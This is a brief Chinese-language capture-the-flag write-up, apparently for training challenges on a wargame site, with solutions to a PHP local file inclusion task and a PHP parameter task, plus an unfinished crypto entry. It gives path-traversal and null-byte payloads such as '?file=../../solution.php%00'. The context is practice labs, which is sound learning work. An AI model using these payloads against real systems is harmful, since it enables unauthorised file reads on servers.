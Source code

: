 
# **Training: PHP LFI (Exploit, PHP, Training)**

* 考虑%00截断
* 根据提示 要访问一个../solution.php

在URL后添加：
```php
?file=../solution.php%00
```
显示没有这个文件
再往上一级访问：
```php
?file=../../solution.php%00
```
done.

# **PHP 0817 (PHP, Exploit)**

* 这段php代码会根据_GET数组中which的值进行选择执行

在URL后添加
```php
?which=solution
```
done.

# **Training: Crypto - Transposition I (Crypto, Training)**

> ### 本题待定。。。。

我真的很菜很菜，要努力哦

> ## END

